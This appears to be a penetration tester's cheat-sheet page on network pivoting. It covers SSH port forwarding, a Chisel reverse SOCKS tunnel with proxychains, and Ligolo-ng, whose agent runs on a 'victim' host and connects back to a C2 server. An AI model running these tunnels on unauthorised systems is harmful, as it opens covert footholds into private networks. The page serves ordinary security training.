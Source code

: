```yaml
---
title: "Pivot"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Port forwarding ssh
##### Option `-L` (Local Port Forwarding)

- **Syntaxe** : `ssh -L [port_local]:[host_remote]:[port_remote] [utilisateur]@[hôte]`
- **Usage** : Redirige un port de votre machine locale vers un port sur la machine distante.
- **Exemple** : `ssh -L 4000:127.0.0.1:3000 johndoe@192.168.1.100`

##### Option `-R` (Remote Port Forwarding)

- **Syntaxe** : `ssh -R [port_remote]:[host_local]:[port_local] [utilisateur]@[hôte]`
- **Usage** : Redirige un port de la machine distante vers un port sur votre machine locale.
		- **Exemple** : `ssh -R 4000:127.0.0.1:3000 johndoe@192.168.1.100`
			
      ssh -R1080: pentest@10.10.10.10 -N

## Chisel / Proxychain

- Get the binary : 
```sh
wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_linux_amd64.gz

wget https://github.com/jpillora/chisel/releases/download/v1.10.0/chisel_1.10.0_windows_amd64.gz
```

Adds a line to `/etc/proxychains4.conf` to be able to use `proxychains`:

```sh
socks5 127.0.0.1 1080
```

- Download the binary on the remote host and then  : 

```sh
# On your local machine
./chisel server -p 8888 -reverse &
```

```sh
# On the remote host
./chisel client 10.8.3.12:8888 R:1080:socks &
```

```sh
proxychains -q nmap -sT localhost
```

## Ligolo-ng

```sh
Proxy : https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz

Agent_windows : https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip

or 

Agent_linux : 
https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_linux_amd64.tar.gz
```

- Setup Ligolo-ng : 
Start the _proxy_ server on your Command and Control (C2) server (default 11601 listening will be use):

```sh
sudo ip tuntap add user p4v1c mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

- Start the _agent_ on your target (victim) computer (no privileges are required!):
```sh
./agent.exe -connect 10.8.3.12:11601 -ignore-cert
```

Use the `session` command to select the _agent_.

```sh
ligolo-ng » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

Display the network configuration of the agent using the `ifconfig` command:
Add a route on the _proxy/relay_ server to the _192.168.0.0/24_ _agent_ network : 
```sh
sudo ip route add 10.10.11.0/24 dev ligolo
start
```

- Clean : 
```sh
sudo ip link set dev ligolo down
sudo ip tuntap del dev ligolo mode tun
 ```

 